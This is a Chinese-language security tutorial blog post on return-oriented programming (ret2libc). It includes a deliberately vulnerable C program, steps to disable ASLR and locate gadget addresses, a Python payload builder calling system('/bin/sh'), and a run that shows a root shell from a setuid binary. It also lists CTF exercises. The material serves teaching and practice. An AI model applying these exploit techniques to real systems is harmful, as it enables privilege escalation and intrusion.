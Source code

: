 ```yaml
---
layout: blog
book: true
title:  "简单的ROP"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-15/78939382.jpg
date:   2018-08-28 14:43:11
category: 安全
tags:
- ROP 
---
```


- 现代栈溢出利用技术基础:ROP
- 利用signal机制的ROP技术:SROP
- 没有binary怎么办:BROP
- 劫持栈指针:Stack Pivot
- 利用动态链接绕过ASLR:ret2dll resolve、fake linkmap
- 利用地址低12bit绕过ASLR:Partial Overwrite
- 绕过stack canary:改写指针与局部变量、leak canary、overwrite canary
- 溢出位数不够怎么办:覆盖ebp,Partial Overwrite

----

本文例子是一种代码复用技术，通过控制栈调用来劫持控制流
Google关键字:Ret2libc,ROP


## 0x01、实例

```c++
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}   
```

编译后，进行下列步骤：

1.安装[gdb-peda](https://github.com/longld/peda)，然后gdb ./ret2libc->start->find "/bin/sh"，得到地址0x7ffff7b91543；

2.继续，使用p system，找到system函数的地址0x7ffff7a57590；

3.安装[ropper](https://github.com/sashs/Ropper)，然后使用ropper --file ./ret2libc --search "% ?di"，找到pop %rdi; ret;的地址0x00000000004006a3。


注意，因为我们是64位机器，默认使用的是寄存器rdi等传递参数，所以，我们需要使用rop技术，先将栈上的参数pop到寄存器rdi中，再调用system()函数。

接着，使用这三个地址，构造payload：
```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91543)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a57590)       # address of system()
#print buf
f = open("in.txt", "w")
f.write(buf)
```

执行该脚本，生成payload文件in.txt。

给./ret2libc添加权限:

```
sudo chown root ./ret2libc
sudo chmod 4755 ./ret2libc
```

执行：
```
➜  Desktop (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```

成功获得root shell。

![Shell](https://raw.githubusercontent.com/catsay217994/catsay217994.github.io/master/_posts/security_image/rop.png "ROP")


## CTF中ROP常规套路:

- 第一次触发漏洞，通过ROP泄露libc的address(如puts_got),计算system地址,然后返回到一个可以重现触发漏洞的位置(如main),再次触发漏洞
通过ROP调用system("/bin/sh")
- 直接execve("/bin/sh",["/bin/sh"],NULL),通常在静态链接时比较常用

## 习题
	- Defcon 2015 Qualifier:R0pbaby
	- AliCTF 2016:vss
	- PlaidCTF 2013:ropasaurusrex
	
## 作业:
	- 根据R0pbaby的writeup重写exploit
	- 尝试做vss和ropasaurusrex
	
